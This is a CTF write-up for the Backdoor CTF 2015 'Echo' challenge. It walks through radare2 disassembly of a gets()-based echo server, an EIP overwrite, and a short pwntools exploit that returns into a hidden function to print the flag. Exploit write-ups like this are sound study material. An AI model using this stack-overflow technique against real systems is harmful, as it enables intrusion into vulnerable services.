 ```yaml
---
layout: post
title: "Backdoor CTF 2015 Echo"
date: 2015-04-02 13:37:38 -0400
author: [superkojiman]
comments: true
categories: [backdoor]
---
```


### Solved by superkojiman

We're given 32-bit ELF binary that acts as an echo server. We can run it and it just echoes back whatever we type in: 

```
# ./echo 
AAAAAAAAAAAAAAAAAAAAAAAAA
ECHO: AAAAAAAAAAAAAAAAAAAAAAAAA
```

Pretty simple. If we look at the disassembly of main(), we see that its purpose is mostly to call a function called test(). The disassembly of test() looks like this: 

```
[0x08048480]> pdf@sym.test
      ; CODE (CALL) XREF 0x08048631 (sym.main)
/ function: sym.test (59)
|     0x080485f0  sym.test:
|     0x080485f0     55               push ebp
|     0x080485f1     89e5             mov ebp, esp
|     0x080485f3     83ec58           sub esp, 0x58
|     0x080485f6     8d45c6           lea eax, [ebp-0x3a]
|     0x080485f9     890424           mov [esp], eax
|     0x080485fc     e8effdffff       call dword imp.gets
|        ; imp.gets()
|     0x08048601     c7042401000000   mov dword [esp], 0x1
|     0x08048608     e813feffff       call dword imp.sleep
|        ; imp.sleep()
|     0x0804860d     a138a00408       mov eax, [sym.stderrGLIBC_2.0]
|     0x08048612     8d55c6           lea edx, [ebp-0x3a]
|     0x08048615     89542408         mov [esp+0x8], edx
|     0x08048619     c7442404db860408 mov dword [esp+0x4], str.ECHOs
|     0x08048621     890424           mov [esp], eax
|     0x08048624     e827feffff       call dword imp.fprintf
|        ; imp.fprintf()
|     0x08048629     c9               leave
\     0x0804862a     c3               ret
      ; ------------

```

So the binary uses gets() to get our input, and then prints it out to stderr. A call to gets() is an immediate hint that we can probably do some stack smashing here. Let's test that theory:  

```
# python -c 'print "A"*100' | ./echo 
ECHO: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault (core dumped)

# gdb -c core -q -batch -n -ex 'p $eip' 
[New LWP 12365]

warning: no loadable sections found in added symbol-file system-supplied DSO at 0xf774d000
Core was generated by `./echo'.
Program terminated with signal 11, Segmentation fault.
#0  0x41414141 in ?? ()
$1 = (void (*)()) 0x41414141
```

Great, we've overwritten EIP. Now what? The binary has NX enabled and I assumed that ASLR was enabled on the server as well. Let's see what functions are available to us: 

```
[0x08048480]> afl
0x080483f0     16   0  imp.gets
0x08048400     16   0  imp.fgets
0x08048410     16   0  imp.fclose
0x08048420     16   0  imp.sleep
0x08048430     16   0  imp.__gmon_start__
0x08048440     16   0  imp.__libc_start_main
0x08048450     16   0  imp.fprintf
0x08048460     16   0  imp.fopen
0x08048470     16   0  imp.fputs
0x0804862b     18   1  sym.main
0x080485f0     59   1  sym.test
0x08048480     34   1  section..text
0x080484c0     16   4  sym.deregister_tm_clones
0x080484d0     26   3  loc.080484d0
0x080484cf      1   1  loc.080484cf
0x080484f0     25   4  sym.register_tm_clones
0x08048509     30   3  loc.08048509
0x08048508      1   1  loc.08048508
0x08048530     30   3  sym.__do_global_dtors_aux
0x0804854c      2   1  loc.0804854c
0x08048550    160   8  sym.frame_dummy
0x08048578    120   5  loc.08048578
0x080485aa     70   4  loc.080485aa
0x080485c0     48   3  loc.080485c0
0x080485ac     68   2  loc.080485ac
0x080485ee      2   1  loc.080485ee
0x080486b0      2   1  sym.__libc_csu_fini
0x080484b0      4   1  sym.__x86.get_pc_thunk.bx
0x080486b4     20   1  section..fini
0x08048640     97   4  sym.__libc_csu_init
0x080483b0     35   3  section..init
0x080483ce      5   1  loc.080483ce
0x08048699      8   1  loc.08048699
0x08048678     41   2  loc.08048678
0x0804857d    115   7  sym.sample
```

Interesting, there are calls to fopen(), fclose(), fgets(), and fputs(). But where are they being called from? Taking a closer look at the radare2 output, we see that there's another function called sym.sample. Let's disassemble this. 


```
[0x08048480]> pdf @sym.sample
/ function: sym.sample (115)
|         0x0804857d  sym.sample:
|         0x0804857d     55               push ebp
|         0x0804857e     89e5             mov ebp, esp
|         0x08048580     81ec88000000     sub esp, 0x88
|         0x08048586     c7442404d0860408 mov dword [esp+0x4], 0x80486d0
|         0x0804858e     c70424d2860408   mov dword [esp], str.flag.txt
|         0x08048595     e8c6feffff       call dword imp.fopen
|            ; imp.fopen()
|         0x0804859a     8945f4           mov [ebp-0xc], eax
|         0x0804859d     837df400         cmp dword [ebp-0xc], 0x0
|     ,=< 0x080485a1     7507             jnz loc.080485aa
|     |   0x080485a3     b801000000       mov eax, 0x1
|    ,==< 0x080485a8     eb44             jmp loc.080485ee
|   ,||   ; CODE (JMP) XREF 0x080485a1 (sym.frame_dummy)
/ loc: loc.080485aa (70)
|   ,||   0x080485aa  loc.080485aa:
|   ,=`-> 0x080485aa     eb14             jmp loc.080485c0
|  .      ; CODE (JMP) XREF 0x080485dc (sym.frame_dummy)
/ loc: loc.080485ac (68)
|  .      0x080485ac  loc.080485ac:
|  .----> 0x080485ac     a138a00408       mov eax, [sym.stderrGLIBC_2.0]
|  |||    0x080485b1     89442404         mov [esp+0x4], eax
|  |||    0x080485b5     8d4590           lea eax, [ebp-0x70]
|  |||    0x080485b8     890424           mov [esp], eax
|  |||    0x080485bb     e8b0feffff       call dword imp.fputs
|  |||       ; imp.fputs()
|  ||     ; CODE (JMP) XREF 0x080485aa (loc.080485aa)
/ loc: loc.080485c0 (48)
|  ||     0x080485c0  loc.080485c0:
|  |`---> 0x080485c0     8b45f4           mov eax, [ebp-0xc]
|  | |    0x080485c3     89442408         mov [esp+0x8], eax
|  | |    0x080485c7     c744240464000000 mov dword [esp+0x4], 0x64
|  | |    0x080485cf     8d4590           lea eax, [ebp-0x70]
|  | |    0x080485d2     890424           mov [esp], eax
|  | |    0x080485d5     e826feffff       call dword imp.fgets
|  | |       ; imp.fgets()
|  | |    0x080485da     85c0             test eax, eax
|  `====< 0x080485dc     75ce             jnz loc.080485ac
|    |    0x080485de     8b45f4           mov eax, [ebp-0xc]
|    |    0x080485e1     890424           mov [esp], eax
|    |    0x080485e4     e827feffff       call dword imp.fclose
|    |       ; imp.fclose()
|    |    0x080485e9     b800000000       mov eax, 0x0
|    |    ; CODE (JMP) XREF 0x080485a8 (sym.frame_dummy)
/ loc: loc.080485ee (2)
|    |    0x080485ee  loc.080485ee:
|    `--> 0x080485ee     c9               leave
\         0x080485ef     c3               ret
          ; ------------
```

One thing stands out here; fopen() opens a file called flag.txt. So it looks like sample() opens flag.txt, reads its contents into a buffer, and fputs() it to stderr. Now if we connect to the server, we see that our input is echoed back to us, which means stderr is being redirected back to us. So all we need to do is overwrite EIP with the address of sample(), and when sample() is called, it should print out the flag. 

The exploit: 

```python
#!/usr/bin/env python
from pwn import *
target = "hack.bckdr.in"

r = remote(target, 8002)

buf = "" 
buf += "A"*62
buf += p32(0x804857d)   # address of sample()

r.send(buf + "\n")
print r.recvall()
```

Getting the flag: 

```text
# ./sploit.py 
[+] Opening connection to hack.bckdr.in on port 8002: Done
[+] Recieving all data: Done (138B)
[*] Closed connection to hack.bckdr.in port 8002
ECHO: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA}\x85\x0
flag_goes_here_flag_goes_here_flag_goes_here_flag_goes_here_flag
```


